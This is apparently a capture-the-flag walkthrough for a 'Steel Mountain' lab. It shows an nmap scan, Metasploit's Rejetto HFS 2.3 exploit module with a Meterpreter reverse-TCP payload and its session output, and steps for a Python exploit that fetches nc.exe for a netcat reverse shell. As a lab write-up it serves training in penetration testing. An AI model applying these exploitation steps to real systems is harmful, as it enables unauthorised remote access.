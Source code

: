 ***

Author: dxWiz  
Date: 24 Mar 2022

***

# Task 1 Introduction 

Pretty straight forward, start the machine and go to the machine url and look for your answer in the source code to find out who is the employee of the month.

# Task 2 Initial Access  

Do an nmap scan `nmap -sC -sV $IP` and the scan result will lead you to the answer for question 1. 

    PORT      STATE SERVICE            VERSION
    80/tcp    open  http               Microsoft IIS httpd 8.5
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-title: Site doesn't have a title (text/html).
    |_http-server-header: Microsoft-IIS/8.5
    135/tcp   open  msrpc              Microsoft Windows RPC
    139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
    3389/tcp  open  ssl/ms-wbt-server?
    | rdp-ntlm-info: 
    |   Target_Name: STEELMOUNTAIN
    |   NetBIOS_Domain_Name: STEELMOUNTAIN
    |   NetBIOS_Computer_Name: STEELMOUNTAIN
    |   DNS_Domain_Name: steelmountain
    |   DNS_Computer_Name: steelmountain
    |   Product_Version: 6.3.9600
    |_  System_Time: 2022-03-22T11:49:13+00:00
    | ssl-cert: Subject: commonName=steelmountain
    | Not valid before: 2022-03-21T11:45:50
    |_Not valid after:  2022-09-20T11:45:50
    |_ssl-date: 2022-03-22T11:49:19+00:00; +2s from scanner time.
    8080/tcp  open  http               HttpFileServer httpd 2.3  
    |_http-server-header: HFS 2.3
    |_http-title: HFS /
    49152/tcp open  msrpc              Microsoft Windows RPC
    49153/tcp open  msrpc              Microsoft Windows RPC
    49154/tcp open  msrpc              Microsoft Windows RPC
    49155/tcp open  msrpc              Microsoft Windows RPC
    49156/tcp open  msrpc              Microsoft Windows RPC
    49163/tcp open  msrpc              Microsoft Windows RPC
    Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

To find the name of the file server, just go to $IP:8080 and take note of the create url of the file server.

Run `searchsploit rejetto http file server 2.3 -w` to find the answer for the CVE number.

Start metasploit with the command `msfconsole` and `search http file server 2.3`

    0  auxiliary/server/android_mercury_parseuri                                normal     No     Android Mercury Browser Intent URI Scheme and Directory Traversal Vulnerability
    1  exploit/linux/smtp/apache_james_exec                    2015-10-01       normal     Yes    Apache James Server 2.3.2 Insecure User Creation Arbitrary File Write
    2  exploit/multi/http/git_client_command_exec              2014-12-18       excellent  No     Malicious Git and Mercurial HTTP Server For CVE-2014-9390
    3  exploit/windows/http/rejetto_hfs_exec                   2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution
    4  exploit/windows/scada/codesys_gateway_server_traversal  2013-02-02       excellent  No     SCADA 3S CoDeSys Gateway Server Directory Traversal
    
`use 3` and then `show options` to see what are the required parameters to set. We begin by `set RHOSTS $IP` and `set RPORT 8080`. Also `set LHOST` to attacker machine IP. Final setting will be like below:

    msf6 exploit(windows/http/rejetto_hfs_exec) > show options

    Module options (exploit/windows/http/rejetto_hfs_exec):

     Name       Current Setting  Required  Description
     ----       ---------------  --------  -----------
     HTTPDELAY  10               no        Seconds to wait before terminating web server
     Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
     RHOSTS     <Target>$IP      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
     RPORT      8080             yes       The target port (TCP)
     SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine
                                            or 0.0.0.0 to listen on all addresses.
     SRVPORT    8080             yes       The local port to listen on.
     SSL        false            no        Negotiate SSL/TLS for outgoing connections
     SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
     TARGETURI  /                yes       The path of the web application
     URIPATH                     no        The URI to use for this exploit (default is random)
     VHOST                       no        HTTP server virtual host


    Payload options (windows/meterpreter/reverse_tcp):

     Name      Current Setting  Required  Description
     ----      ---------------  --------  -----------
     EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
     LHOST     <Attacker>$IP     yes       The listen address (an interface may be specified)
     LPORT     4444             yes       The listen port


To run the exploit, just type `run` or `exploit` and wait patiently until you see below 

    msf6 exploit(windows/http/rejetto_hfs_exec) > run

    [*] Started reverse TCP handler on 10.11.56.137:4444 
    [*] Using URL: http://0.0.0.0:8080/hofayz
    [*] Local IP: http://10.0.2.15:8080/hofayz
    [*] Server started.
    [*] Sending a malicious request to /
    [*] Payload request received: /hofayz
    [*] Sending stage (175174 bytes) to 10.10.40.39


    [*] Meterpreter session 5 opened (<Attacker>$IP:4444 -> <Target>$IP:49298 ) at 2022-03-24 12:02:09 -0400
    [*] Server stopped.
    [!] This exploit may require manual cleanup of '%TEMP%\KxkkPLaE.vbs' on the target

    meterpreter > 

Go to C:\users\bill\desktop and `type user.txt` to get the flag for the last question

# Task 3 Privilege Escalation 

Just follow the instrcution and use metasploit to continue with the studies.

# Task 4 Access and Escalation Without Metasploit (python3 friendly)

For this task, in the latest release of python, urllib2 is gone and hence we need to use a tool name 2to3 to convert the exploit script 39161.py to a python3 friend 39161.py with the following command

`2to3 39161.py -w` this will create a backup of the original script and rewrite the script to python version3. If you do not have 2to3 in your machine, just install it `sudo apt install 2to3`

By now you should be ready with the new script. Go to the folder which stored `nc.exe` and start a simple HTTP server `python3 -m http.server 80` (take note the default port is 8000 if unspecified) and listen to a port of your choice with `nc` and then try running the script twice as instructed. You should be able to get a callback.
